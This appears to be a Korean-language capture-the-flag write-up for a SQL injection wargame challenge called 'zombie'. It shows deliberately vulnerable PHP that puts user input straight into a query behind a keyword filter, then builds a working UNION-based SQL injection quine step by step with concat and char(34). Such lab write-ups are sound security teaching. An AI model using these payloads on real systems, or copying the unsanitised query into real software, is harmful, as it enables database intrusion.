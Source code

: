 # zombie

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `rollup join ace @`등을 필터링 하고있다.   
&rarr; ace는 replace 함수를 필터링하기 위함인것 같다.   
- GET 파라미터 pw와 sql 쿼리 실행 결과의 pw가 동일하다면, 문제가 해결된다.   


## 3. Solution
이전 문제 <a href="./../../ouroboros/ouroboros.md">ouroboros</a>와 같은 quine 문제이다.   
다른 점이라면 `replace`함수를 더이상 쓸 수 없다는 점이다.    

대안으로 `concat`함수와 서브쿼리 그리고 alias가 있다.   

```sql
' union select a from (select 'hihi' as a)as a%23
```
위 쿼리의 결과로 hihi가 출력되는 것을 볼 수 있다.   


이제, concat함수를 이용하면 메인코드 부분과 서브쿼리 부분을 모두 출력할 수 있다.   
```sql
' union select concat(a,a) from (select "' union select conct(a,a) from (select " as a)as a%23
```
결과는 다음과 같다.   
```sql
Pw : ' union select conct(a,a) from (select ' union select conct(a,a) from (select
```   


마지막으로 두 가지 문제가 있다.    

1. double qoutes 출력에 관한 문제
>    concat 함수 안에 `char(34)`을 넣어줌으로써 해결할 수 있다.   
```sql
' union select concat(a,char(34),a,char(34)) from (select "' union select conct(a,char(34),a,char(34)) from (select " as a)as a%23
```
>    결과는 다음과 같다.   
```sql
Pw : ' union select conct(a,char(34),a,char(34)) from (select "' union select conct(a,char(34),a,char(34)) from (select "
```

2. 입력한 값의 마지막 부분, ` as a)as a%23`에 관한 문제
> 간단하게 concat 함수 안에 추가해 주면 된다.    
```sql
' union select concat(a,char(34),a,char(34),' as a)as a%23') from (select "' union select concat(a,char(34),a,char(34),' as a)as a%23') from (select " as a)as a%23
```   
>    결과는 다음과 같으며, 문제가 해결되었다.   
```sql
Pw : ' union select concat(a,char(34),a,char(34),' as a)as a#') from (select "' union select concat(a,char(34),a,char(34),' as a)as a#') from (select " as a)as a#
ZOMBIE Clear!
```